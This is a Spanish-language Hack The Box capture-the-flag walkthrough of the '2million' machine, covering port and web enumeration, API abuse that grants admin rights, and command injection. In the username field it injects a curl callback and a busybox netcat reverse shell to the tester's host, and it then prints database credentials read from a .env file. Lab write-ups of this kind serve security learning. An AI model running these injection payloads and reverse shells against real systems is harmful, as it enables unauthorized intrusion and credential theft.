## Reconocimiento

Realizamos un ping para verificar que tenemos trazabilidad con la máquina, además, podemos observar el valor del `ttl` para determinar el posible sistema operativo al que nos estamos enfrentando, aunque esto no lo confirma definitivamente:

```bash
ping -c 1 10.129.229.66 > enum/ping.txt

PING 10.129.229.66 (10.129.229.66) 56(84) bytes of data.
64 bytes from 10.129.229.66: icmp_seq=1 ttl=63 time=49.2 ms

--- 10.129.229.66 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 49.170/49.170/49.170/0.000 ms
```

### Enumeración de puertos

Ahora procedemos a realizar un escaeno de puertos, tanto UDP como TCP, para ello usaremos `nmap` realizando un `SYN-Scan` e indicando el parámetro `-p-` para enumerar todo el rango de puertos:

```bash
sudo nmap -sS -p- -T5 10.129.229.66 --open -Pn -oN enum/all_ports.txt -oG enum/all_ports.grep

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-22 17:01 CEST
Nmap scan report for 10.129.229.66
Host is up (0.066s latency).
Not shown: 65454 closed tcp ports (reset), 79 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.80 seconds
```

Como mencionamos anteriormente, también realizaremos un escaeno de los puertos UDP usando `nmap` indicando el parámetro `-sU`:

```bash
sudo nmap -sU -T5 10.129.229.66 --open -Pn -oN enum/nmap_udp_ports.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-22 17:01 CEST
Warning: 10.129.229.66 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.229.66
Host is up (0.050s latency).
All 1000 scanned ports on 10.129.229.66 are in ignored states.
Not shown: 987 open|filtered udp ports (no-response), 13 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```

### Enumeración de Servicios

Ahora que ya conocemos los puertos que están abiertos en la máquina, procederemos a enumerar que servicios están corriendo en dichos puertos, para ello, utilizaremos `nmap` con el parámetro `-sCV` para enumerar la versión de los servicios y a su vez, utilizar algunos scripts básicos de reconocimiento:

```bash
sudo nmap -sCV -p22,80 -A 10.129.229.66 -Pn -oN enum/all_services.txt

# Nmap 7.95 scan initiated Tue Apr 22 17:04:30 2025 as: /usr/lib/nmap/nmap -sCV -p22,80 -A -Pn -oN enum/all_services.txt 10.129.229.66
Nmap scan report for 10.129.229.66
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.01 ms 10.10.14.1
2   52.12 ms 10.129.229.66

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 22 17:04:39 2025 -- 1 IP address (1 host up) scanned in 9.74 seconds
```

Como podemos observar, vemos que en la máquina hay un servidor `SSH` con versión `OpenSSH 8.9p1 Ubuntu 3ubuntu0.1` en el puerto `22/tcp` y también tiene expuesto el puerto `80/tcp` en el que hay un servidor web de `nginx`, podemos ver que tiene una redirección a `http://2million.htb/` por lo que lo añadiremos a `/etc/hosts`.

```bash
sudo nano /etc/hosts

10.129.229.66 2million.htb
```

Empezaremos revisando el servidor web para intentar ver que hay y si podemos intentar acceder explotando alguna vulnerabilidad conocida o fallos de seguridad.

#### 80/tcp - HTTP

Accedemos a la web para ver si se trata de un CMS o una web personalizada:



Vemos que es una web personalizada, por lo que comenzamos a enumerar mirando `Wappalyzer`:



Revisamos también con `whatweb` para ver que tecnologías se están utilizando en la web:

```bash
whatweb 2million.htb -v --colour never > enum/whatweb.txt

WhatWeb report for http://2million.htb
Status    : 200 OK
Title     : Hack The Box :: Penetration Testing Labs
IP        : 10.129.229.66
Country   : RESERVED, ZZ

Summary   : Cookies[PHPSESSID], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], Meta-Author[Hack The Box], nginx, Script, X-UA-Compatible[IE=edge], YouTube

Detected Plugins:
[ Cookies ]
	Display the names of cookies in the HTTP headers. The 
	values are not returned to save on space. 

	String       : PHPSESSID

[ Email ]
	Extract email addresses. Find valid email address and 
	syntactically invalid email addresses from mailto: link 
	tags. We match syntactically invalid links containing 
	mailto: to catch anti-spam email addresses, eg. bob at 
	gmail.com. This uses the simplified email regular 
	expression from 
	http://www.regular-expressions.info/email.html for valid 
	email address matching. 

	String       : info@hackthebox.eu
	String       : info@hackthebox.eu

[ Frame ]
	This plugin detects instances of frame and iframe HTML 
	elements. 


[ HTML5 ]
	HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	String       : nginx (from server string)

[ Meta-Author ]
	This plugin retrieves the author name from the meta name 
	tag - info: 
	http://www.webmarketingnow.com/tips/meta-tags-uncovered.html
	#author

	String       : Hack The Box

[ Script ]
	This plugin detects instances of script HTML elements and 
	returns the script language/type. 


[ X-UA-Compatible ]
	This plugin retrieves the X-UA-Compatible value from the 
	HTTP header and meta http-equiv tag. - More Info: 
	http://msdn.microsoft.com/en-us/library/cc817574.aspx 

	String       : IE=edge

[ YouTube ]
	Embedded YouTube video 

	Website     : http://youtube.com/

[ nginx ]
	Nginx (Engine-X) is a free, open-source, high-performance 
	HTTP server and reverse proxy, as well as an IMAP/POP3 
	proxy server. 

	Website     : http://nginx.net/

HTTP Headers:
	HTTP/1.1 200 OK
	Server: nginx
	Date: Tue, 22 Apr 2025 15:08:49 GMT
	Content-Type: text/html; charset=UTF-8
	Transfer-Encoding: chunked
	Connection: close
	Set-Cookie: PHPSESSID=rcpdtpnk3gmfold6d2ikaphtb6; path=/
	Expires: Thu, 19 Nov 1981 08:52:00 GMT
	Cache-Control: no-store, no-cache, must-revalidate
	Pragma: no-cache
```

Enumeramos directorios de la web para ver si encontramos alguna ruta oculta:

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt:FUZZ -u http://2million.htb/FUZZ -fw 5
```



Vemos que hay varias rutas interesantes, aunque a todas ellas podemos acceder desde la propia web usando la interfaz gráfica. De todas formas, accedemos a la ruta de `http://2million.htb/invite` para ver que nos encontramos:



Probamos a enviar algún código cualquiera para ver que peticiones hace la página y vemos que llama a un endpoint de la API en el mismo servidor:



Revisamos los ficheros de `JavaScript` que tenemos cargados en la web de `invite` y vemos que hay un fichero llamado `inviteapi.min.js` en el que podemos ver una línea en lo que parece indicarnos otras rutas de la API:



Accedemos a la ruta `http://2million.htb/api/v1` y observamos que se encuentran todos los endpoints de la API:



También vemos que hay un endpoint al que podemos realizar una petición para generar un código de invitación, que es lo que necesitamos, el endpoint es `/api/v1/invite/generate`, probamos desde `Burp Suite` y conseguimos generar un código de invitación con una petición `POST`:



Parece que está en `base64`, por lo que lo decodificamos con el propio `Burp Suite` y obtenemos el código de invitación en texto claro, que usaremos en la web:



Lo insertamos y nos redirige a la página de `http://2million.htb/register` donde podremos registrarnos en la página web y acceder a la aplicación con un usuario:


Nos registramos e iniciamos sesión para acceder a la aplicación:



## Explotación - Acceso inicial

Tras enumerar la aplicación con el usuario, no encontramos ningún vector por el que poder subir algún archivo o que podamos realizar algún ataque, por lo que volvemos a revisar los endpoints que encontramos anteriormente y decidimos ver que responden los del grupo de `/api/v1/admin` usando `Burp Suite`.

Probamos a enviar una petición `PUT` al endpoint `/api/v1/admin/settings/update` y recibimos lo siguiente:



Vemos que hay un error en el `Content-Type` de la petición, por lo que pondremos `application/json`, ya que en las peticiones de generar el código de invitación también utilizaba este tipo:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
```



Ahora vemos que la web se está quejando de que falta un parámetro `email`, por lo que lo añadimos también en la petición:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com"
}
```



De nuevo vemos que la web se queja, pero esta vez porque falta un parámetro `ìs_admin`, que entendemos que debería ser un valor booleano, por lo que le pongo `true`:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com",
	"is_admin": true
}
```



Parece que hay que enviar `1` o `0` en el valor del parámetro `ìs_admin`, entonces modificamos la petición y lo lanzamos de nuevo:

```
PUT /api/v1/admin/settings/update HTTP/1.1
...
Content-Type: application/json
...
{
	"email":"test@test.com",
	"is_admin": 1
}
```



Parece que ya hemos conseguido realizar la petición, utilizando un usuario que no era administrador y ahora hemos conseguido actualizarlo para que sea administrador de la aplicación, por lo que probaremos a hacer una petición al endpoint de `/api/v1/admin/vpn/generate` sin parámetros para ver si con el mensaje de error descubrimos que parámetros debemos enviarle:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
```



Vemos que le falta un parámetro `username`, por lo que lo añadimos en la petición indicando nuestro usaurio, y lo lanzamos de nuevo:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test"
}
```



Conseguimos realizar la petición correctamente y nos genera el fichero de `openvpn`, aun así intentaremos ver si podemos realizar algún tipo de ataque a este endpoint, por lo que probaremos a inyectar algún comando de alguna forma, empezaremos añadiendo un `;id` para ver si cambia algo en la respuesta:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;id"
}
```



Parece que ahora no nos devuelve nada, por lo que no sabemos si se ha llegado a ejecutar el comando. Podemos intentar a levantar un servidor web con `Python` e inyectar un `curl` hacia nuestra máquina para ver si vemos alguna petición:

```bash
python -m http.server 80
```

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;curl http://10.10.14.141"
}
```





Parece que en la respuesta de la petición no cambia nada, pero en cambio en el log del servidor web sí vemos que hemos recibido una petición, por lo que confirmamos que se ha inyectado el comando, ahora intentaremos inyectar una `Reverse Shell`, ponemos un puerto en escucha y lanzamos la petición:

```bash
sudo nc -nlvp 4444
```

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;busybox nc 10.10.14.141 4444 -e /bin/bash"
}
```





Conseguimos acceso a la máquina con el usuario `www-data`, por lo que ahora tendremos que intentar escalar privilegios.

## Escalada de Privilegios

Upgradeamos la TTY para podamos ejecutar comandos más cómodos:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo;fg
reset
xterm
export SHELL=bash
export TERM=xterm
```

### Enumeración del sistema - www-data

Revisando los ficheros del sistema, decidimos buscar en el fichero `/var/www/html/` y vemos los siguientes ficheros:

```bash
cd /var/www/html/
ls -la

total 56
drwxr-xr-x 10 root root 4096 Apr 22 17:10 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Apr 22 17:10 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Vemos que hay un fichero `.env` muy interesante, por lo que lo leemos con `cat` y vemos el siguiente contenido:

```
cat .env 

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Encontramos lo que parecen las credenciales de la `BBDD` del usaurio `admin`, entonces lo que haremos será intentar acceder por `SSH` con esas credenciales y vemos si podemos acceder remotamente con ese usuario:

```
admin:SuperDuperPass123
```

### Movimiento Lateral - admin

```bash
ssh admin@2million.htb
```

